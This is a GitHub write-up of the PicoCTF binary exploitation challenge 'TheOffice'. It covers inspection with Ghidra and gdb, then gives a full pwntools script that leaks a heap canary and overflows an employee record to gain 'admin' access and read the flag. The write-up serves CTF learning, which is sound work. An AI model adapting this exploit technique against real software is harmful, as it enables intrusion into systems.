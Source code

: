 # PicoCTF-TheOffice
![gambar](https://github.com/user-attachments/assets/1ee6224e-9c36-454d-a2b6-ece9a1c1beaa)
 * **Category: Binary Exploitation**
 * **Difficulty:HARD**
# Inspections
From the challenge, there is a link that provides a file with the name  `The_office` Knowing this, I tried to download the file and then I inspected the file by looking at the file type. The file was found to be an ELF file.
![filing](https://github.com/user-attachments/assets/e70f5c0a-595e-4390-a85b-60ffe4f8842b)
From this, I tried to change the file execution policy by using chmod to look further into the file using gdb and ghidra. 
 ## Ghidra Inspections
 When decompiling using Ghidra, I saw that there
 were several functions in the file that received continuous input and stored it in the memory heap. 
 ![ghidra](https://github.com/user-attachments/assets/51881fe9-36f4-478a-adf4-e9a9e04e50d8)
knowing this, i tried to use gdb for more deep inspections
## gdb peda inspections
Using gdb peda, I tried to see the security of the file first, what are the active security features of the file, seeing this I tried to do a stack overflow by entering several payloads.
![checksec](https://github.com/user-attachments/assets/89fc34e5-aa71-4a78-bd42-3de40f9150b1)

when done the overflowing i get this following :
![ingdbchoose4](https://github.com/user-attachments/assets/b7a96251-4222-4fea-9adf-a4efd82f761b)
From this, it can be seen that the string `admin`. Knowing this, I tried to see what functions are available in the program and obtained the following results: 
![checkfunctions](https://github.com/user-attachments/assets/7235bbd0-b8a3-423d-9f1f-13b7c89c277b)
After trying this, I tried to make a script that would do the overflow and get a flag from the file, where for the source code I used the following source code:
```python
#!/usr/bin/env python3

from pwn import context, log, p32, process, remote, sys

context.binary = 'the_office'
elf = context.binary


def get_process():
    if len(sys.argv) == 1:
        return elf.process()

    host, port = sys.argv[1], int(sys.argv[2])
    return remote(host, port)


def add_employee(p, name=b'a', email=None, salary=b'1', phone=b'b'):
    p.sendlineafter(b'token', b'1')
    p.sendlineafter(b'Name: ', name)

    if email:
        p.sendlineafter(b'Email (y/n)? ', b'y')
        p.sendlineafter(b'Email address: ', email)
    else:
        p.sendlineafter(b'Email (y/n)? ', b'n')

    p.sendlineafter(b'Salary: ', salary)
    p.sendlineafter(b'Phone #: ', phone)
    p.sendlineafter(b'Bldg (y/n)? ', b'n')


def main():
    p = get_process()

    add_employee(p, email=b'A' * 24)

    p.sendlineafter(b'token', b'2')
    p.sendlineafter(b'Employee #?\n', b'0')

    add_employee(p)
    add_employee(p)

    p.sendlineafter(b'token', b'3')
    p.recvuntil(b'Bldg #: ')
    p.recvuntil(b'Bldg #: ')

    canary = int(p.recvline().strip().decode())
    log.info(f'Leaked heap canary: {hex(canary)}')

    p.sendlineafter(b'token', b'2')
    p.sendlineafter(b'Employee #?\n', b'0')

    add_employee(p, phone=b'A' * 28 + p32(canary) + p32(0x35) * 2 + b'admin')  

    p.sendlineafter(b'token', b'4')
    p.sendlineafter(b'Employee #?\n', b'1')

    log.success(f'Flag: {p.recvline().decode()}')
    p.close()


if __name__ == '__main__':
    main()
```
for more detail you can check this [pathfile](https://github.com/ZahidWazifa/PicoCTF-TheOffice/blob/master/script2.py)
after run it  i get the flag via the virtual servel that gived by the lab
![gettheflag](https://github.com/user-attachments/assets/72504726-53b7-4c31-b5d6-f738be7e257c)


